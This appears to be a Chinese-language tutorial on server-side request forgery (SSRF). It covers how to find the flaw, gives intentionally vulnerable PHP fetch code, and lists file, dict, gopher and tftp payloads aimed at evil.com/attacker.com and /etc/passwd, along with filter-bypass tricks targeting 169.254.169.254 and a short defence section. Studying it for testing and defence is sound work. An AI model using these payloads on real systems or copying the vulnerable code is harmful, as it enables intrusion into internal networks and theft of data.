




# SSRF漏洞

—————————————————————————————————————————————————————————————————————————————————————————————————————————————

### 一、SSRF是什么？

```
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。

一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）
```

### 二、SSRF漏洞原理

```
SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。
```


```
	比如,黑客操作服务端从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。利用的是服务端的请求伪造。ssrf是利用存在缺陷的web应用作为代理攻击远程和本地的服务器
```

### 三、SSRF漏洞挖掘

#### 1、分享

**通过URL地址分享网页内容**

#### 2、转码服务

```
    通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览:由于手机屏幕大小的关系，直接浏览网页内容的时候会造成许多不便，因此有些公司提供了转码功能，把网页内容通过相关手段转为适合手机屏幕浏览的样式。例如百度、腾讯、搜狗等公司都有提供在线转码服务。
```

#### 3、在线翻译

```
通过URL地址翻译对应文本的内容。提供此功能的国内公司有百度、有道等。
```



#### 4、图片、文章收藏功能

```
	此处的图片、文章收藏中的文章收藏就类似于分享功能中获取URL地址中title以及文本的内容作为显示，目的还是为了更好的用户体验，而图片收藏就类似于功能四、图片加载。
	
	http://title.xxx.com/title?title=http://title.xxx.com/as52ps63de
```

#### 5、未公开的api实现以及其他调用URL的功能

```
此处类似的功能有360提供的网站评分，以及有些网站通过api获取远程地址xml文件来加载内容。
```



#### 6、图片加载与下载

```
	通过URL地址加载或下载图片，图片加载远程图片地址此功能用到的地方很多，但大多都是比较隐秘，比如在有些公司中的加载自家图片服务器上的图片用于展示。
	
	(此处可能会有人有疑问，为什么加载图片服务器上的图片也会有问题，直接使用img标签不就好了?没错是这样，但是开发者为了有更好的用户体验通常对图片做些微小调整例水印、压缩等所以就可能造成SSRF问题)。
```

#### 7、从URL关键字中寻找

```
利用google语法加上这些关键字去寻找SSRF漏洞

share
wap
url
link
src
source
target
u
display
sourceURl
imageURL
domain
```

```
简单来说：所有目标服务器会从自身发起请求的功能点，且我们可以控制地址的参数，都可能造成SSRF漏洞
```

### 四、产生SSRF漏洞的函数

```
SSRF攻击可能存在任何语言编写的应用，接下来将举例php中可能存在SSRF漏洞的函数。
```

#### 1、file_get_contents

```
下面的代码使用file_get_contents函数从用户指定的url获取图片。然后把它用一个随即文件名保存在硬盘上，并展示给用户。
```

```php
<?php
if (isset($_POST['url'])) 
{ 
$content = file_get_contents($_POST['url']); 
$filename ='./images/'.rand().';img1.jpg'; 
file_put_contents($filename, $content); 
echo $_POST['url']; 
$img = ""; 
} 
echo $img; 
?>
```

#### 2、sockopen()

```
以下代码使用fsockopen函数实现获取用户制定url的数据（文件或者html）。这个函数会使用socket跟服务器建立tcp连接，传输原始数据。
```

```php
<?php 
function GetFile($host,$port,$link) 
{ 
$fp = fsockopen($host, intval($port), $errno, $errstr, 30); 
if (!$fp) { 
echo "$errstr (error number $errno) \n"; 
} else { 
$out = "GET $link HTTP/1.1\r\n"; 
$out .= "Host: $host\r\n"; 
$out .= "Connection: Close\r\n\r\n"; 
$out .= "\r\n"; 
fwrite($fp, $out); 
$contents=''; 
while (!feof($fp)) { 
$contents.= fgets($fp, 1024); 
} 
fclose($fp); 
return $contents; 
} 
}
?>
```

#### 3、curl_exec()

```
CURL这是另一个非常常见的实现，它通过PHP获取数据。文件/数据被下载并存储在“curled”文件夹下的磁盘中，并附加了一个随机数和“.txt”文件扩展名。
```

```php
<?php 
if (isset($_POST['url']))
{
$link = $_POST['url'];
$curlobj = curl_init();
curl_setopt($curlobj, CURLOPT_POST, 0);
curl_setopt($curlobj,CURLOPT_URL,$link);
curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($curlobj);
curl_close($curlobj);
 
$filename = './curled/'.rand().'.txt';
file_put_contents($filename, $result); 
echo $result;
}
?>
```

#### 4、注意事项

```
一般情况下PHP不会开启fopen的gopher wrapper

file_get_contents的gopher协议不能URL编码

file_get_contents关于Gopher的302跳转会出现bug，导致利用失败

curl/libcurl 7.43 上gopher协议存在bug(%00截断) 经测试7.49 可用
curl_exec() 默认不跟踪跳转

file_get_contents() file_get_contents支持php://input协议
```

### 五、SSRF中URL的伪协议

```
当我们发现SSRF漏洞后，首先要做的事情就是测试所有可用的URL伪协议
```

```
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd

dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info：

sftp:// SSH文件传输协议或安全文件传输协议

ldap:// 轻量级目录访问协议

tftp:// 简单文件传输协议

gopher:// 分布式文档传递服务，可使用gopherus生成payload
```

#### 1、file

```
这种URL Schema可以尝试从文件系统中获取文件：

http://example.com/ssrf.php?url=file:///etc/passwdhttp://example.com/ssrf.php?url=file:///C:/Windows/win.ini

如果该服务器阻止对外部站点发送HTTP请求，或启用了白名单防护机制，只需使用如下所示的URL Schema就可以绕过这些限制：
```

#### 2、dict

```
这种URL Scheme能够引用允许通过DICT协议使用的定义或单词列表：

http://example.com/ssrf.php?dict://evil.com:1337/
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337[tcp/*]
accepted (family 2, sport 31126)CLIENT libcurl 7.40.0
```

#### 3、sftp

```
	在这里，Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（Secure File Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作。

http://example.com/ssrf.php?url=sftp://evil.com:1337/
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337[tcp/*]
accepted (family 2, sport 37146)SSH-2.0-libssh2_1.4.2
```

#### 4、ldap://或ldaps:// 或ldapi://

```
LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议。

http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquithttp://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquithttp://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit
```

#### 5、tftp://

```
TFTP（Trivial File Transfer Protocol,简单文件传输协议）是一种简单的基于lockstep机制的文件传输协议，它允许客户端从远程主机获取文件或将文件上传至远程主机。

http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET
evil.com:# nc -lvup 1337
Listening on [0.0.0.0] (family 0, port1337)TESTUDPPACKEToctettsize0blksize512timeout3
```

#### 6、gopher://

```
Gopher是一种分布式文档传递服务。利用该服务，用户可以无缝地浏览、搜索和检索驻留在不同位置的信息。

http://example.com/ssrf.php?url=http://attacker.com/gopher.php gopher.php (host it on acttacker.com):-<?php header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');?>
evil.com:# nc -lvp 1337
Listening on [0.0.0.0] (family 0, port1337)Connection from [192.168.0.12] port 1337[tcp/*] accepted (family 2, sport 49398)Hissrftest
```

### 六、SSRF漏洞利用（危害）

```
1.可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;

2.攻击运行在内网或本地的应用程序（比如溢出）;

3.对内网web应用进行指纹识别，通过访问默认文件实现;

4.攻击内外网的web应用，主要是使用get参数就可以实现的攻击（比如struts2，sqli等）;

5.利用file协议读取本地文件等。.

6.各个协议调用探针：http,file,dict,ftp,gopher等

http:192.168.64.144/phpmyadmin/
file:///D:/www.txt
dict://192.168.64.144:3306/info
ftp://192.168.64.144:21
```

### 七、SSRF绕过方式

#### 1、**常见的绕过方式**

##### 1.限制为http://www.xxx.com域名时（利用@）

```
可以尝试采用http基本身份认证的方式绕过

如：http://www.aaa.com@www.bbb.com@www.ccc.com，在对@解析域名中，不同的处理函数存在处理差异

在PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com。
```

##### 2.采用短网址绕过

```
比如百度短地址https://dwz.cn/

可以利用在线短网址生成器（https://45t.cn/）将其他网址进行短网址转化绕过

把一个非常长感觉不怀好意的网址变成一个短小看不出来是什么的短网址
```

##### 3.采用进制转换

```
127.0.0.1

八进制：0177.0.0.1

十六进制：0x7f.0.0.1

十进制：2130706433
```



##### 4.利用特殊域名

```
原理是DNS解析。xip.io可以指向任意域名，即

127.0.0.1.xip.io，可解析为127.0.0.1

(xip.io 现在好像用不了了，可以找找其他的)
```

##### 5.利用[::]

```
可以利用[::]来绕过localhost

http://169.254.169.254>>http://[::169.254.169.254]
```

##### 6.利用句号

```
127。0。0。1 >>> 127.0.0.1
```

##### 7、CRLF编码绕过

```
%0d->0x0d->\r回车

%0a->0x0a->\n换行

进行HTTP头部注入

example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a 
```

##### 8.利用封闭的字母数字

```
利用Enclosed alphanumerics
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com
http://169.254.169.254>>>http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

#### 2、常见限制

##### 1.限制为http://www.xxx.com域名

```
采用http基本身份认证的方式绕过，即

@http://www.xxx.com@www.xxc.com
```

##### 2.限制请求IP不为内网地址

```
当不允许ip为内网地址时：

（1）采取短网址绕过

（2）采取特殊域名

（3）采取进制转换
```

##### 3.限制请求只为http协议

```
（1）采取302跳转

（2）采取短地址
```

### 八、SSRF漏洞防御

```
通常有以下5个思路：

1,过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。

2, 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

3,限制请求的端口为http常用的端口，比如，80,443,8080,8090。

4,黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。

5,禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。
```

